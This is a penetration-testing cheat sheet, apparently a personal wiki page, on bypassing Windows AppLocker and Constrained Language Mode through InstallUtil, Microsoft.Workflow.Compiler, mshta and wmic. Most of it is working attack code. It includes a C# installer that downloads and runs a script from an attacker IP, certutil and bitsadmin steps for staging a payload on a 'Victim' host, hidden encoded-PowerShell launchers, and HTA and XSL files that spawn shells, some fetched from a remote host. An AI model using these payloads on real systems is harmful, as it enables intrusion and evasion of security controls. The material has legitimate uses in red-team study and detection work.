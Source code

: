 # AppLocker Bypass

* [https://github.com/api0cradle/UltimateAppLockerByPassList](https://github.com/api0cradle/UltimateAppLockerByPassList)
* [https://www.hackplayers.com/2018/12/english-cor-profilers-bypassing-windows.html](https://www.hackplayers.com/2018/12/english-cor-profilers-bypassing-windows.html)
* [https://0xdf.gitlab.io/2019/03/15/htb-ethereal-cor.html](https://0xdf.gitlab.io/2019/03/15/htb-ethereal-cor.html)
* [https://gitlab.com/0xdf/ctfscripts/tree/master/rev_shell_dll](https://gitlab.com/0xdf/ctfscripts/tree/master/rev_shell_dll)




## Enumeration

Check if there are any AppLocker rules:

```
PS > Get-ChildItem -Path HKLM:\SOFTWARE\Policies\Microsoft\Windows\SrpV2\Exe
```




## InstallUtil

A combination of AppLocker and CLM bypass:

{% code title="BypassCLM.cs" %}
```cs
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;

namespace BypassCLM
{
    class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("These aren't the droids you're looking for.");
        }
    }

    [System.ComponentModel.RunInstaller(true)]
    public class Sample : System.Configuration.Install.Installer
    {
        public override void Uninstall(System.Collections.IDictionary savedState)
        {
            string cmd = "IEX(New-Object Net.WebClient).DownloadString('http://10.10.13.37/run.txt')";
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;
            ps.AddScript(cmd);
            ps.Invoke();
            rs.Close();
        }
    }
}
```
{% endcode %}

{% hint style="info" %}
Add a reference for the `System.Management.Automation` assembly before compilation from path:
```
C:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35
```
{% endhint %}

Upload and execute:

```
Attacker > certutil -encode C:\Users\Offsec\source\repos\Bypass\Bypass\bin\x64\Release\Bypass.exe bypass.txt
Victim > bitsadmin /Transfer myJob http://10.10.13.37/bypass.txt C:\Windows\System32\spool\drivers\color\bypass.txt
Victim > certutil -decode C:\Windows\System32\spool\drivers\color\bypass.txt C:\Windows\System32\spool\drivers\color\bypass.exe && del C:\Windows\System32\spool\drivers\color\bypass.txt
Victim > C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Windows\System32\spool\drivers\color\bypass.exe
```




## Microsoft.Workflow.Compiler.exe

```
PS > C:\Windows\Microsoft.NET\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe info.xml payload.txt
```

{% code title="info.xml" %}
```xml
<?xml version="1.0" encoding="utf-8"?>
<CompilerInput xmlns:i="http://www.w3.org/2001/XMLSchema-instance" xmlns="http://schemas.datacontract.org/2004/07/Microsoft.Workflow.Compiler">
<files xmlns:d2p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays">
<d2p1:string>payload.txt</d2p1:string>
</files>
<parameters xmlns:d2p1="http://schemas.datacontract.org/2004/07/System.Workflow.ComponentModel.Compiler">
<assemblyNames xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<compilerOptions i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<coreAssemblyFileName xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"></coreAssemblyFileName>
<embeddedResources xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<evidence xmlns:d3p1="http://schemas.datacontract.org/2004/07/System.Security.Policy" i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<generateExecutable xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">false</generateExecutable>
<generateInMemory xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">true</generateInMemory>
<includeDebugInformation xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">false</includeDebugInformation>
<linkedResources xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<mainClass i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<outputName xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"></outputName>
<tempFiles i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<treatWarningsAsErrors xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">false</treatWarningsAsErrors>
<warningLevel xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">-1</warningLevel>
<win32Resource i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<d2p1:checkTypes>false</d2p1:checkTypes>
<d2p1:compileWithNoCode>false</d2p1:compileWithNoCode>
<d2p1:compilerOptions i:nil="true" />
<d2p1:generateCCU>false</d2p1:generateCCU>
<d2p1:languageToUse>CSharp</d2p1:languageToUse>
<d2p1:libraryPaths xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" i:nil="true" />
<d2p1:localAssembly xmlns:d3p1="http://schemas.datacontract.org/2004/07/System.Reflection" i:nil="true" />
<d2p1:mtInfo i:nil="true" />
<d2p1:userCodeCCUs xmlns:d3p1="http://schemas.datacontract.org/2004/07/System.CodeDom" i:nil="true" />
</parameters>
</CompilerInput>
```
{% endcode %}

{% code title="payload.txt" %}
```cs
using System;
using System.Diagnostics;
using System.Workflow.Activities;
 
public class Foo : SequentialWorkflowActivity {
      public Foo() {
          Process process = new Process();
          // Configure the process using the StartInfo properties.
          process.StartInfo.FileName = "powershell.exe";
          process.StartInfo.Arguments = "-WindowStyle Hidden -NoP -NoLogo -exec Bypass -enc <BASE64_PWSH_CMD>";
          process.StartInfo.WindowStyle = ProcessWindowStyle.Normal;
          process.Start();
          process.WaitForExit();
      }
}
```
{% endcode %}




## JScript and MSHTA

Full path to `.hta` file is required:

```
Cmd > mshta.exe \users\snovvcrash\cmd.hta
Cmd > mshta.exe http://10.10.13.37/cmd.hta
```

{% code title="cmd.hta" %}
```
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var res = shell.Run("cmd.exe");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```
{% endcode %}




# WMIC

```
Cmd > wmic os get /format:"evil.xsl"
Cmd > wmic process get brief /format:"http://10.10.13.37/evil.xsl"
```

{% code title="evil.xsl" %}
```
<?xml version='1.0'?>
<stylesheet version="1.0"
xmlns="http://www.w3.org/1999/XSL/Transform"
xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
		<![CDATA[
			var r = new ActiveXObject("WScript.Shell");
			r.Run("powershell.exe -WindowStyle Hidden -NoP -NoLogo -exec Bypass -enc <BASE64_PWSH_CMD>");
		]]>
	</ms:script>
</stylesheet>
```
{% endcode %}
